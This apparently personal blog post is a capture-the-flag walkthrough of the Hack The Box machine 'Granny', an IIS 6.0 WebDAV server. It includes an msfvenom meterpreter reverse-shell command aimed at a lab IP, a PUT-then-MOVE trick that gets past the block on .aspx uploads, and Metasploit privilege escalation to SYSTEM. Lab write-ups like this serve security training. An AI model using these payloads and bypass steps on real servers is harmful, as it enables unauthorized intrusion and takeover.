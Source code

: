 ```yaml
---
layout: PostSimple
date: 
title:     "Hack The Box - Granny"
tags: ['windows','easy','isi','put']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/1.png)

We are going to pwn Granny from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/14](https://www.hackthebox.eu/home/machines/profile/14)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
| http-ntlm-info: 
|   Target_Name: GRANNY
|   NetBIOS_Domain_Name: GRANNY
|   NetBIOS_Computer_Name: GRANNY
|   DNS_Domain_Name: granny
|   DNS_Computer_Name: granny
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Date: Sat, 07 Mar 2020 04:33:20 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  WebDAV type: Unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (90%), Microsoft Windows Server 2003 SP2 (90%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2003 SP2 (89%), Microsoft Windows XP (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows 2000 SP4 (85%), Microsoft Windows XP SP2 or Windows Server 2003 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## HTTP:

The webpage is running as ``ISI 6.0`` from Nmap results. Like [Grandpa](https://0xw0lf.github.io//posts/HTB-Grandpa).[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/2.png)

The Nmap ``webdav-scan`` revealed that we have ``PUT`` options. I tried ``davtest``.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/3.png)

I opened one of the ``PUT`` link to see whats going.I captured the burp request.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/4.png)
We need to know the file extension to upload to get reverse shell.And it is Powered by ``ASP.NET`` so our payload must be in ``.asp or .aspx``.

Now we need create a payload and ``PUT`` to the website.
I used ``msfvenom`` for creating payload

>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.22 LPORT=1234 -f aspx

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/5.png)

We I tried uploading the payload but I got ``403 Forbidden``.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/6.png)

We know the website have lot of ``Allowed Methods`` so I checked what ``MOVE`` will do?
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/7.png)

Since ``.aspx`` is not allowed to upload we can upload someother file and change the extension back to ``.aspx``.

I used ``.html`` to upload the same payload, now we can use ``Move`` to change its extension.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/8.png)

``201 Created`` It worked, Extension changed.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/9.png)

Started my Listener in ``Msfconsole`` [br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/10.png)

## Privilege Escalation:

We can try try ``local_exploit_suggester`` before that, need to ``migrate`` process inorder to make it stable. So I won't face any errors while using any exploit.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/11.png)

Let's background this session and Use ``local_exploit_suggester``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/13.png)

So it's like [Grandpa](https://0xw0lf.github.io//posts/HTB-Grandpa) Box, same exploits.
I used the same ``windows/local/ppr_flatten_rec``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/14.png)

Got NT AUTHORITY\SYSTEM



